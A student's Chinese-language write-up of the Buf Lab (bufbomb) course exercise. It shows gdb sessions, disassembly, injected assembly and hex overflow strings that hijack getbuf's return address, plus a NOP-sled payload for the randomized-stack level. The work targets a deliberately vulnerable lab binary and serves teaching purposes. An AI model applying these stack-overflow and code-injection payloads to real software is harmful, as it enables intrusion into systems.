

# Buf Lab

### gdb

```assembly
gdb //start
run -u 2016011246 < level0
break getbufn
break *0x8048c52
continue
c //继续
x/x &global_value //得到全局变量的地址和值
p/x $ebx+0x32  //得到储存的值
```

### Level 0

利用缓冲区溢出，找到smoke的位置后，把返回地址更改为smoke的地址

使用`objdump -d bufbomb > bufbomb.txt`反汇编，发现smoke的地址和test的程序

```assembly
smoke:
 8048b6b:	55 	pushl	%ebp
 8048b6c:	89 e5 	movl	%esp, %ebp
 8048b6e:	83 ec 08 	subl	$8, %esp
 8048b71:	83 ec 0c 	subl	$12, %esp
 8048b74:	68 e0 a2 04 08 	pushl	$134521568
 8048b79:	e8 92 fd ff ff 	calll	-622 <.plt+0x110>
 8048b7e:	83 c4 10 	addl	$16, %esp
 8048b81:	83 ec 0c 	subl	$12, %esp
 8048b84:	6a 00 	pushl	$0
 8048b86:	e8 ec 08 00 00 	calll	2284 <validate>
 8048b8b:	83 c4 10 	addl	$16, %esp
 8048b8e:	83 ec 0c 	subl	$12, %esp
 8048b91:	6a 00 	pushl	$0
 8048b93:	e8 88 fd ff ff 	calll	-632 <.plt+0x120>
```

记录下smoke的地址`08048b6b`，转换成`6b 8b 04 08`输入到字符串的末尾，用来覆盖程序的返回地址。

```assembly
getbuf:
 8048cbe:	55 	pushl	%ebp
 8048cbf:	89 e5 	movl	%esp, %ebp
 8048cc1:	83 ec 28 	subl	$40, %esp
 8048cc4:	83 ec 0c 	subl	$12, %esp
 8048cc7:	8d 45 d8 	leal	-40(%ebp), %eax
 8048cca:	50 	pushl	%eax
 8048ccb:	e8 41 01 00 00 	calll	321 <Gets>
 8048cd0:	83 c4 10 	addl	$16, %esp
 8048cd3:	b8 01 00 00 00 	movl	$1, %eax
 8048cd8:	c9 	leave
 8048cd9:	c3 	retl
```

在test的第三行，我发现ebp往下扩展了40字节的空间，再加上返回地址位于4（%ebp），因此我应该插入44个无意义的占位字节，然后把smoke的地址用小端方式写到后面。

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 6b 8b 04 08
```


### Level 1

```assembly
08048b6b <smoke>:
 8048b6b:	55                   	push   %ebp
 8048b6c:	89 e5                	mov    %esp,%ebp
 8048b6e:	83 ec 08             	sub    $0x8,%esp
 8048b71:	83 ec 0c             	sub    $0xc,%esp
 8048b74:	68 e0 a2 04 08       	push   $0x804a2e0
 8048b79:	e8 92 fd ff ff       	call   8048910 <puts@plt>
 8048b7e:	83 c4 10             	add    $0x10,%esp
 8048b81:	83 ec 0c             	sub    $0xc,%esp
 8048b84:	6a 00                	push   $0x0
 8048b86:	e8 ec 08 00 00       	call   8049477 <validate>
 8048b8b:	83 c4 10             	add    $0x10,%esp
 8048b8e:	83 ec 0c             	sub    $0xc,%esp
 8048b91:	6a 00                	push   $0x0
 8048b93:	e8 88 fd ff ff       	call   8048920 <exit@plt>
```

本题和level0很类似，唯一不同的点就是函数的传参。因为数据对齐的规则，这里不是直接把我的cookie放到后面，而是又加了4个字节的00。

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 98 8b 04 08
00 00 00 00 cb 90 a8 58
```


### Level 2

在getbuf的输入里面插入一段代码，然后通过缓冲区溢出来跳转到这段代码，从而执行，最后再返回到bang。

在bang里面找到global_val的地址`0x804e140`

```assembly
08048be9 <bang>:
 8048be9:	55                   	push   %ebp
 8048bea:	89 e5                	mov    %esp,%ebp
 8048bec:	83 ec 08             	sub    $0x8,%esp
 8048bef:	a1 40 e1 04 08       	mov    0x804e140,%eax
 8048bf4:	89 c2                	mov    %eax,%edx
 8048bf6:	a1 38 e1 04 08       	mov    0x804e138,%eax
 8048bfb:	39 c2                	cmp    %eax,%edx
 8048bfd:	75 25                	jne    8048c24 <bang+0x3b>
 8048bff:	a1 40 e1 04 08       	mov    0x804e140,%eax
 8048c04:	83 ec 08             	sub    $0x8,%esp
 8048c07:	50                   	push   %eax
 8048c08:	68 3c a3 04 08       	push   $0x804a33c
 8048c0d:	e8 2e fc ff ff       	call   8048840 <printf@plt>
 8048c12:	83 c4 10             	add    $0x10,%esp
 8048c15:	83 ec 0c             	sub    $0xc,%esp
 8048c18:	6a 02                	push   $0x2
 8048c1a:	e8 58 08 00 00       	call   8049477 <validate>
 8048c1f:	83 c4 10             	add    $0x10,%esp
 8048c22:	eb 16                	jmp    8048c3a <bang+0x51>
 8048c24:	a1 40 e1 04 08       	mov    0x804e140,%eax
 8048c29:	83 ec 08             	sub    $0x8,%esp
 8048c2c:	50                   	push   %eax
 8048c2d:	68 61 a3 04 08       	push   $0x804a361
 8048c32:	e8 09 fc ff ff       	call   8048840 <printf@plt>
 8048c37:	83 c4 10             	add    $0x10,%esp
 8048c3a:	83 ec 0c             	sub    $0xc,%esp
 8048c3d:	6a 00                	push   $0x0
 8048c3f:	e8 dc fc ff ff       	call   8048920 <exit@plt>
```

```shell
break getbuf
x/x &global_value
p/x $esp
```

得到的%esp的地址就是字符串输入的地址，也就是我们需要跳转到的地址，这里是`0x55683408`。

```assembly
movl $0x58a890cb, 0x804e140
push $0x8048be9
ret
```

```assembly
c7 05 40 e1 04 08 cb 90
a8 58 68 e9 8b 04 08 c3
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 08 34 68 55
```


### Level 3

`cookie = 0x804e138`

getbuf的代码，发现返回值存在%eax里面

```assembly
movl $0x58a890cb, %eax
push $0x8048c57
ret
```

```assembly
break *0x8048c52
r -u 2016011246 < level0
i r
```

得到`%ebp=0x55683450`，这是函数正常的返回地址，我们要在不更改它的情况下做溢出。

```assembly
b8 cb 90 a8 58 68 57 8c
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
50 34 68 55 08 34 68 55
```


### Level 4

level 3中缓冲区所使用的内存地址是固定的，而本题中使用gdb调试发现`%ebp`的值在一定范围内浮动，因此为了保证所有的五次中都能执行到我插入的代码，我选择跳转到合适的位置。并用`nop`指令来填充占位的字节。

```assembly
nop
nop
movl $0x58a890cb, %eax
lea 0x18(%esp), %ebp
push $0x8048d0e
ret
```

虽然`%ebp`的值在变，但是它和`%esp`的差不变，通过这一点我们可以设置出合适的返回地址。

```assembly
08048cfc <testn>:
 8048cfc:	55                   	push   %ebp
 8048cfd:	89 e5                	mov    %esp,%ebp
 8048cff:	83 ec 18             	sub    $0x18,%esp  
```

```assembly
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 b8 cb 90 

a8 58 8d 6c 24 18 68 0e 8d 04 08 c3 88 32 68 55
```



### 附件说明

0、1、2、3、4 提交结果的十六进制机器码文件

level0、level1、level2、level3、level4 提交结果

\*.s、\*.o、 \*.d 第2、3、4题需要插入一段代码，这是被插入的那一段代码 


### 收获与反思

- 掌握计算机的体系结构可以帮助我们更好的理解程序，保障安全。
- 本例子中攻击的方式依赖于已知的地址或者相对地址，可以通过随机化地址的方式来防御攻击。
- 逆向工程很有意思，也很复杂，一段短短的代码编译出来很长。高级语言大幅度方便了我们的编程工作。